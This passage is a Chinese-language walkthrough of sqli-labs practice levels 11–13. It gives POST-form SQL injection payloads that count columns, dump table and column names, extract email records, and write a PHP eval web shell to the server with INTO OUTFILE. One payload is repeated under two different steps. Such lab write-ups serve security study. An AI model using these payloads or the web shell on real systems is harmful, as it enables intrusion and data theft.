 ![Pasted image 20250317144342](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317144342.png)
**字段个数：**
```php
uname=admin' order by 3 %23 &passwd=&submit=Submit  //报错
uname=admin' order by 2 %23 &passwd=&submit=Submit  //正常
说明有两个字段
```
![Pasted image 20250317144707](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317144707.png)
**查找回显位：**
```php
uname=-admin' union select 1,2 %23 &passwd=&submit=Submit
```
![Pasted image 20250317145213](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317145213.png)
**爆库名：**
```php
uname=-admin' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() %23 &passwd=&submit=Submit
```
![Pasted image 20250317145013](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317145013.png)
**爆表名：**
```php
uname=-admin' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() %23 &passwd=&submit=Submit
```
![Pasted image 20250317145312](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317145312.png)
**爆列名：**
```php
uname=-admin' union select 1,group_concat(column_name) from information_schema.columns where table_name='emails' %23 &passwd=&submit=Submit
```
![Pasted image 20250317145416](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317145416.png)
**爆信息：**
```php
uname=-admin' union select 1,group_concat(concat_ws('-',id,email_id)) from emails %23 &passwd=&submit=Submit
```
![Pasted image 20250317145535](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317145535.png)
**写shell：**
```php
uname=-admin' UNION SELECT 1,'<?php @eval($_POST["v"]);?>' into outfile "D:\\phpStudy_pro\\WWW\\hack1.php" %23 &passwd=&submit=Submit
```
![Pasted image 20250317145849](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317145849.png)
**成功连接**
![Pasted image 20250317145917](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317145917.png)
# Less-12
跟11关差不多，但是使用的是**双引号加括号**进行闭合。
```
uname=admin") order by 2 --+&passwd=&submit=Submit
```
![Pasted image 20250317151040](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317151040.png)
然后后面跟11关一样。
# Less-13
基于**单引号加括号**进行闭合，错误回显注入。和十二关一样。
构建payload:
```php
uname=admin'&passwd=pass&submit=Submit
```